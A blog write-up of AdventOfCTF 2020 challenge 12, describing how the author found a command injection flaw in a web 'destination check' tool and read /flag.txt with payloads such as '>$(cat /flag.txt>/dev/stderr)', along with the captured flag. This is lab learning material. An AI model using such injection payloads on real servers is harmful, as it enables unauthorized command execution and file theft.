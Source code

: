 +++
author = "Maik de Kruif"
title = "Command"
subtitle = "Challenge 12 - AdventOfCTF"
date = 2020-12-14T15:55:21+01:00
description = "A writeup for challenge 12 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/af3424cd215a6459494ae07eab33cb35.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1200

## Description

To ensure a good Christmas we implemented some diagnostic tools. This one checks that the time to a destination is within an acceptable range. The flag is in /flag.txt.

Visit <https://12.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website we're greeted with an input field and a check button. Let's enter some text in the input and press the check button. Initially, nothing happens but after a few seconds we get a result: `1607956922.306628 Destination check was OK`. As the page didn't reload there is probably some javascript in play. Indeed there is, when opening the source, we find a script tag with the following javascript function:

```js
function send() {
  let place = $("#place")[0].value;
  if (place.length > 0) {
    $.post("/", { place: place }, function (data) {
      $("#result")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
  return false;
}
```

If we analyze this function a bit we find that it executes a `POST` request to `/` and puts the result in an HTML element with this selector: `'#result'`.

Let's try some more inputs. Just plain text doesn't seem to change the result much besides the number before "Destination check". If we, however, enter a quote (`"`), we get a different result back:

```text
Something happened: /bin/bash: -c: line 0: unexpected EOF while looking for matching `"'
/bin/bash: -c: line 1: syntax error: unexpected end of file
```

And inputting a backtick (`) returns this error:

```text
Something happened: BusyBox v1.31.1 () multi-call binary.

Usage: nslookup [-type=QUERY_TYPE] [-debug] HOST [DNS_SERVER]

Query DNS about HOST

QUERY_TYPE: soa,ns,a,aaaa,cname,mx,txt,ptr,any
```

### nslookup

I spend quite some time trying to find a way to get out of this command but I could not get anything to work so I took a break.

### Redirection

When I came back, I tried inputting a redirect character (`>`) and it gave a result!

## Getting some output

After entering a redirection character (`>`) we get the following result:

```text
Something happened: /bin/bash: -c: line 0: syntax error near unexpected token `newline'
/bin/bash: -c: line 0: `./check &gt;'
```

This means we can redirect output and thus get arbitrary code execution by putting a sub-command as the output like so:

```bash
> $(ls)
```

But entering this gave an error:

```text
Something happened: /bin/bash: $(ls): ambiguous redirect
```

This means that, while it does work, it does not work directly as the output isn't valid. If we, however, put a sub-command inside a sub-command (`> $($(ls))`), the inner output will be printed:

```text
Something happened: /bin/bash: app.py: command not found
/bin/bash: $($(ls)): ambiguous redirect
```

As we can see, there seems to be an `app.py` file but we don't care about it now. Let's try to cat the flag from the location specified in the challenge description (`/flag.txt`) by entering the following input: `>$($(cat /flag.txt))`. This return the following result:

```text
Something happened: /bin/bash: Congratulations,: command not found
/bin/bash: $($(cat /flag.txt)): ambiguous redirect
```

As we can see, it did read the file. Sadly, however, it only returned the first line...

At this point, I didn't really know what to do but just as I was about to take another break, [@credmp](https://twitter.com/credmp) posted a hint on Twitter. It said the following: "Hint: all error messages are printed on stderr.".

### Redirecting the output

After reading this tweet, I tried the following input: `>$(cat /flag.txt>/dev/stderr)` and it immediately worked! I felt pretty stupid for not having thought about that 😐.

## Solution

So redirecting the output to `stderr` worked and we got the flag: `NOVI{we_are_halfway_to_christmas!}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#12-13).
